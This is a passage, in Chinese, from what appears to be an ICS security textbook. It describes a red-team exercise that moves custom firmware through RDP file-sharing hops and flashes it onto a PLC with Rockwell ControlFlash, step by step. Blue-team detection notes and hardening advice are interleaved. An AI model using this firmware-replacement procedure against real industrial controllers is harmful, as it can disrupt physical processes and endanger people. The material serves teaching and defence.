从这个项目中，我们可以发现 Test_Left PLC 的 IP 地址和机架位置（插槽），显示在屏幕顶部的路径中 - 172.25.200.11\Backplane\0（表示机架中的 0 号插槽）。我们可以验证这是交战规则中定义的 IP 地址。

我们现在拥有使用自定义固件攻击 Test_Left PLC 所需的全部信息。

## 蓝队观察

蓝队几乎不可能检测到使用标准工具（LoTL）进行的侦察活动。此时，行为分析是检测 mgibson 用户在其正常非工作时间登录的唯一选择，这显示在我们于第 9 章“可视化、关联和告警”中创建的威胁检测仪表板上，如下面的截图所示：



图 16.31 – 显示 RDP 连接的入侵检测仪表板

那就是我们（10.0.0.200），在 18:40 使用 RDP 连接到 Workstation10（172.25.100.210），大约在合法用户 mgibson 于 17:07 下线后的 90 分钟。

将此观察添加到列表中：

- 使用轮班表来验证进入工业环境的入口（远程连接）是否合法。

## 最终目标——攻击 Test_Left PLC

现在，我们如何让 Test_Left PLC 更新新的固件镜像？问题是，固件更新软件通常与其他 PLC 编程软件工具一起安装。因此，如果我们可以将自定义固件传输到 Workstation10 机器上，就可以使用现有工具上传固件。我们将把自定义固件存储在 Kali Linux Apache Web 服务器的 files 文件夹中，如下面的截图所示：


图 16.32 – 将固件复制到 Web 服务器的 files 文件夹

现在，我们可以通过 Web 浏览器从 TEST_REPORTSSER 访问它，如下所示：



图 16.33 – 将固件下载到 Test_ReportsServer

下载完成后，我们可以使用 RDP 协议的文件共享功能，将文件复制到与 WIN10-1 的 RDP 会话中，如下面的截图所示：



图 16.34 – 通过 RDP 客户端文件传输功能将固件文件复制到 WIN10-1

我们可以再次使用 RDP 客户端的功能，将其从 WIN10-1 复制到 Workstation10，如下所示：


图 16.35 – 通过 RDP 客户端文件传输功能将固件文件复制到 Workstation10

现在，我们可以部署固件了。为此，我们将使用 Rockwell 的 ControlFlash 实用程序，步骤如下：

- 1. 在“开始”菜单 |“Flash Programming Tools”|“ControlFlash”下打开该实用程序。
- 2. 在欢迎屏幕上单击“下一步”。
- 3. 在“Catalog Number”屏幕上单击“浏览”，接着在“Firmware Kit Locations”屏幕上单击“添加”，然后浏览到存放 custom-firmware.bin 文件的文件夹，如下面的截图所示：



图 16.36 – ControlFlash 实用程序：自定义固件位置

4. 单击“确定”，再次单击“确定”，然后“下一步”进入“Device Selection”屏幕。


+   5. 在 `Rslinx` 树中找到 `Test_Left` PLC 并点击 `OK`，如下图所示：



+   6. 在 **Firmware Revision** 屏幕中选择控制器的自定义固件并点击 **Next**，如下图所示：



+   7. 固件现在将由 ControlFlash 实用程序上传到控制器并安装，如下所示：



图 16.39 – ControlFlash 实用程序：应用固件

好了——我们完成了。是时候写报告并转到下一个工作了。

## Blue Team 观察

更新自动化设备的固件，就像我们对 Test_Left PLC 所做的那样，由于部署了以 OT 为中心的入侵检测系统（IDS），这是一个非常可观察的事件。SilentDefense 在活动发生时向我们发出警报，如下图所示：



图 16.40 – 违规检测仪表板捕获固件下载

另外一个建议是禁用从企业网络到工业网络的 RDP 会话中的文件传输（剪贴板共享）。这样就可以阻止我们（轻松地）将新固件传输到 Workstation10。禁用文件传输是我们在第 3 章《工业隔离区》中讨论过的远程桌面协议网关（RDP-GW）服务器的功能。

### 总结

在本章中，我们讨论了红队演练的方方面面，它们与渗透测试有何不同，以及蓝队如何参与其中。然后我们为 *Company Z* 执行了一个红队参与示例，我们攻击了他们的 ICS，并成功替换了位于其工业网络上的 PLC 的运行固件，该 PLC “安全地”隐藏在防火墙后面，与企业网络隔离。在此过程中，我们讨论了蓝队可能捕获我们活动的机会，并讨论了更好地保护该设置的建议。

我们在示例红队演练中涵盖的内容仅展示了一种实现目标的方法。绝不应该将其用作执行此类评估的剧本，但应将其用作指导您完成攻击各个阶段的指南。

在下一章中，我们将讨论渗透测试的方方面面，并获得为 *Company Y* 执行渗透测试的实践经验。
